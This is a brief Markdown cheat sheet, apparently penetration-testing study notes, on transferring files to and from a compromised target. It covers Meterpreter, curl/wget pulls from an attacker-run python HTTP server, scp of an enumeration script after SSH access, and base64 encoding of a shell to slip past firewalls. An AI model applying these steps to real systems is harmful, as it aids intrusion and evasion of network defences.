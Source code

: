 ### upload or download files on targer / our machine
---
## metasploit meterpreter give upload / download options

---
## wget / curl
>First set move to directory which content have to upload (our machine)
>`cd /target`
>then set server on 
>`python3 -m http.server 8000`
>use curl/wget on target machine to download file from out server
>`curl https://ip:port/target.sh -o file.sh`
>`wget https://ip:port/target.sh`

reverse this to download on our machine

---
## use SCP
> use after ssh acquire
> `scp linenum.sh user@remotehost:/tmp/linenum.sh`

---
## encoding for firewall
## base64
>some time firewall don't allow to transfer
>then use base64 encoding , decode at server side
>`base64 shell -w 0`
>`encodede_message | base64 -d  > file`

---
## validation file
### check if file is ok after transfer


>`file file_name`
>check **md5 hash**
>**match md5 hash on both machine after transfer
>`md5sum file_name`